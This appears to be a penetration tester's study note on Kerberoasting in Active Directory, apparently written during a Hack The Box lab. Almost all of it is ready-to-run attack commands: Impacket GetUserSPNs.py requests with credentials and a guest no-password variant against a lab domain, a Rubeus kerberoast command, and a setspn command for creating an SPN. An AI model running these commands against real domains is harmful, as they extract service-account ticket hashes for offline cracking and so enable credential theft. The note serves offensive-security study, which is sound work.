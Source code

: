**Kerberoasting** is an attack method used in Active Directory environments where an attacker targets service accounts. It works by requesting and then cracking the service account’s Kerberos ticket (TGS—Ticket Granting Service). E.g MySQL, HTTP, FTP.... etc

![[Pasted image 20240726224839.png]]

The attack:

```bash
GetUserSPNs.py DOMAIN/USER:PASSWORD@DC_IP {-dc-ip} DC_IP -request -outputfile kerb.hashcat
```

If you have guest access with no password, and you have a list of users, this attack might work:

```
GetUserSPNs.py rebound.htb/guest -usersfile users.txt -request -outputfile kerb.hashcat -dc-ip 10.129.229.114 -no-pass
```

Kerberoasting (from computer on the domain):
```powershell
.\Rubeus.exe kerberoast /nowrap
```

Create an SPN:

```cmd
setspn -s HTTP/iis.mylab.local mylab\svc_iis
```